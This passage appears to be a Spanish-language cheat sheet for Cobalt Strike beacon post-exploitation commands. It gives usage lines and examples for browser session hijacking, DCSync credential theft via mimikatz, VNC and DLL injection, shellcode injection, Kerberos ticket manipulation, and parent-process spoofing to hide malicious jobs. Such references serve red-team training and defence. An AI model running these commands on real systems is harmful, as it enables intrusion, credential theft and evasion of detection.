 ```
upload C:\Users\S1ckB0y1337\NotMalware\youvebeenhacked.txt
```
- **cancel:** Cancelar la descarga de un archivo.
- **reg:** Consultar el Registro.

## Explotación
- **browserpivot:** Secuestrará una sesión web de Internet Explorer y nos permitirá navegar por la web como el navegador de la víctima, incluyendo sus sesiones, cookies y contraseñas guardadas. - **dcsync:** Realiza el ataque DCsync usando mimikatz.
- **dcsync Uso:**
```
dcsync [DOMINIO.fqdn] [DOMINIO\usuario]
```
p. ej.
```
dcsync CORP.local CORP\steve.johnson
```
- **desktop:** Inyecta un servidor VNC en el proceso de baliza y obtiene una vista remota del escritorio del objetivo.
- **desktop Uso:**
```
desktop [pid] [x86|x64] [high|low]
```
p. ej.
```
desktop 592 x64 high
desktop 8841 x86 low
```
:exclamation: Los argumentos high/low especifican la calidad de la sesión.
- **dllinject/dllload:** Inyecta una DLL reflexiva en un proceso/Carga una DLL en el proceso actual. - **execute-assembly:** Carga y ejecuta un ensamblado compilado de .NET completamente en memoria.
- **execute-assembly Uso:**
```
execute-assembly [/path/to/local/.NET] [arguments]
```
- **inject:** Inyecta una carga útil de baliza en un proceso específico y genera una nueva sesión de baliza bajo su contexto de seguridad.
- **inject Uso:**
```
inject [pid] [x86|x64] [listener]
```
p. ej.
```
inject 9942 x64 Lab-SMB
inject 429 x86 Lab-HTTPS
...
```
- **kerberos\*:** Manipula tickets de Kerberos.
- **ppid:** Falsifica el proceso padre de la baliza para cualquier trabajo secundario que genere una tarea posterior a la explotación. De esta forma, podemos ocultar nuestros trabajos maliciosos posteriores a la explotación.
- **psinject:** Inyectar en un proceso específico y ejecutar un comando usando la funcionalidad de PowerPick. \
:notebook: Los módulos de PowerShell importados con **powershell-import** están disponibles.
- **runu:** Ejecutar un comando bajo un PID de proceso falsificado.
- **shinject:** Inyectar shellcode en otro proceso en ejecución.
- **shspawn:** Crear un nuevo proceso e inyectar shellcode en él.
- **shspawn Uso:**
```
shspawn [x86|x64] [/path/to/my.bin]
```
p. ej.
```
shspawn x64 /opt/shellcode/malicious.bin
```
